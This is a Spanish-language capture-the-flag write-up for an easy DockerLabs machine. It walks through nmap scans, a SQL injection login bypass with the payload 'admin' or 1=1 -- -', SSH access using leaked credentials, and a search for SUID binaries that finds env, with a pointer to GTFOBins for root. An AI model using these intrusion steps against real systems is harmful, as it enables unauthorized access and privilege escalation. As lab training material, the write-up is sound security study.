




[[Writeups]]
#Writeups #VeryEasy #DockerLabs


Comenzamos con un escaneo general de nmap:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:07 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

Vemos que solo hay un servivio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```

Con esto, vamos al navegador y vemos que en el http esta alojada esta web:




Despues de enumerar y buscar por la web no encontramos nada por lo que vamos a probar en el login una inyección sql:

Empezaremos con **admin' or 1=1 -- -** a ver que tipo de repuesta nos da la web.
Y la contraseña será un texto aleatorio.



Y nos sale un caso positivo a la primera, Obtenemos acceso a la cuenta de un usuario:


Vemos este mensaje:

**Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78**

por lo que ya tenemos un usuario y contraseña.

Vamos a probar iniciar sesión en el ssh con estas credenciales:

```bash
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2 s password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@c5945d70c932:~$ 

```

Una vez dentro vemos que somos el ususario dylan, vamos a intentar conseguir root, como la maquina es very easy con buscar permisos sudo o suid seguramente ya nos valdrá:

Y efectivamente, vemos que tenemos suid de env

```bash
dylan@c5945d70c932:~$ whoami
dylan
dylan@c5945d70c932:~$ sudo -l
-bash: sudo: command not found
dylan@c5945d70c932:~$ find / -perm 4000 2>/dev/null
dylan@c5945d70c932:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
dylan@c5945d70c932:~$
```

Vamos a la web de gtfobins y buscamos el caso de env:
[GTFOBINS Web: /env](https://gtfobins.github.io/gtfobins/env/#suid)

y aplicando el comando que nos indica obtenemos root:


